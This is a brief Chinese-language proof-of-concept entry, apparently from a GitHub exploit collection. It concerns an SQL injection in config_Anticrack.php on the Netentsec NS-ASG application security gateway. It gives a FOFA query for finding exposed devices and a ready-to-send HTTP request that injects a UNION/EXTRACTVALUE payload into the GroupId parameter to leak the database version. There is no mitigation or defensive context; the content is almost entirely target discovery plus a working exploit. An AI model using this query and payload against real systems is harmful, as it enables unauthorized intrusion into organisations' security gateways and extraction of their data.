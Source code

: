 ##  网康科技NS-ASG应用安全网关config_Anticrack.php存在SQL注入漏洞

## fofa
```
app="网康科技-NS-ASG安全网关
```

## poc
```
GET /admin/config_Anticrack.php?GroupId=1+UNION+ALL+SELECT+EXTRACTVALUE(1,concat(0x7e,(select+version()),0x7e)) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close

```
